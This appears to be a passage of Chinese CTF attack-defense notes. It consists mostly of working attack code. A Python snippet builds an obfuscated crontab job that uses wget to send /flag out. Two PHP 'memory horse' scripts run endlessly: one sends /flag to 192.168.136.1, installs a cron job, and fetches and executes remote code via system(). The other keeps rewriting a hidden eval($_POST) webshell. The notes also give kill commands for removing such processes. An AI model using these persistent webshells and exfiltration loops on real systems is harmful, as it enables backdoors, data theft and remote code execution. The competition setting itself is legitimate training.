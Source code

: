 - crontab提交flag

  ```python
  import base64
  def crontab_flag_submit(flag_server,flag_port,flag_url,flag_token,flag_path):
      crontab_path = '/tmp'
      cmd = '/usr/bin/wget "http://%s:%s/%s" -d "token=%s&flag=$(/bin/cat %s)" ' %(flag_server,flag_port,flag_url,flag_token,flag_path)
      crontab_cmd = "* * * * * %s\n"%cmd
      encode_crontab_cmd = base64.b64encode(crontab_cmd)
      cmd = "/bin/echo " + encode_crontab_cmd + " | /usr/bin/base64 -d | /bin/cat >> " + crontab_path + "/tmp.conf" + " ; " + "/usr/bin/crontab " + crontab_path + "/tmp.conf"
      return cmd
  
  cmd = crontab_flag_submit(flag_server='172.16.132.2',flag_port='8088',flag_url='submit',flag_token='bcbe3365e6ac95ea2c0343a2395834dd',flag_path='/flag')
  print(cmd)
  ```

- ...

## 5. PHP型内存马

内存马，通俗讲就是不死马，就是会运行一段永远不退出的程序常驻在PHP进程里，无限执行。要杀死这种内存马，在root权限下只需要重启Apache或者nginx即可。而在线下赛中，我们往往没有root权限。因此，我们一般得通过www-data用户进行杀马。

>  杀马，kill -9 -1 杀死所有子进程（杀死当前用户所有进程，有权限下慎用），也可以直接killall apache2。这种操作并不会kill掉apache主进程，因为内存马是Apache启动的一个子进程；
>
> ps -aux\|grep 'www-data'\|awk '{print $2}'\|xargs kill -9

1. 回送flag+自动提交flag+回连任意代码执行

   ```php
   <?php
   $message="* * * * * curl 192.168.136.1:8098/?flag=$(cat /flag)&token=7gsVbnRb6ToHRMxrP1zTBzQ9BeM05oncH9hUoef7HyXXhSzggQoLM2uXwjy1slr0XOpu8aS0qrY";
   ignore_user_abort(true);
   set_time_limit(0);
   while (true) {
       $x =file_get_contents('/flag');
   	file_get_contents('http://192.168.136.1:8099/test.php?token=moxiaoxi&flag='.$x);
       sleep(5);
       system("echo '$message' > /tmp/1 ;");
       system("crontab /tmp/1;");
       system("rm /tmp/1;");
       $c=file_get_contents('http://192.168.136.1:8100/1.txt');
       system($c);
   }
   ?>
   ```

2. 覆盖写

   ```php
   <?php
   ignore_user_abort(true);
   set_time_limit(0);
   while (1){
   	$path = "/var/www/html/css/.moxiaoxi2.php";
   	$data = "<?php @eval(\$_POST['moxiaoxi']);?>";
       @file_put_contents($path, $data);
       system('chmod 777 '.$path);
       usleep(100);
   }
   ?>
   ```

